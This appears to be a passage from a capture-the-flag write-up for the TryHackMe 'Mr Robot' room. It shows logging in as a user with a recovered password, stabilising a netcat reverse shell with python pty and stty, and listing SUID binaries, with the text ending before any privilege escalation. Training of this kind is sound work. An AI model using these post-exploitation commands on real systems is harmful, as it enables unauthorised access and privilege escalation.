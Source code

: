 Now we can switch user with the password :

```bash
$ su robot
Password: abcdefghijklmnopqrstuvwxyz

whoami
robotcat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

And we have the ==**second key**==.
## Robot to Root

### Shell Stabilization

First thing we perform a [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) to work better, we'll use [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) :

```bash
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                           
robot@ip-10-10-53-252:~$ ^Z                                                                                              
zsh: suspended  nc -lvnp 1337                                                                                            
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/MrRobot]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1337
                               reset

```

Now we can check for permissions :

```bash
robot@ip-10-10-53-252:~$ sudo -l
[sudo] password for robot: 
Sorry, try again.
[sudo] password for robot: 
Sorry, user robot may not run sudo on ip-10-10-53-252.
```

So Robot doesn’t have permission to run sudo command.

We can search for SUID files. To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null` :

```bash
robot@ip-10-10-53-252:~$ find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
```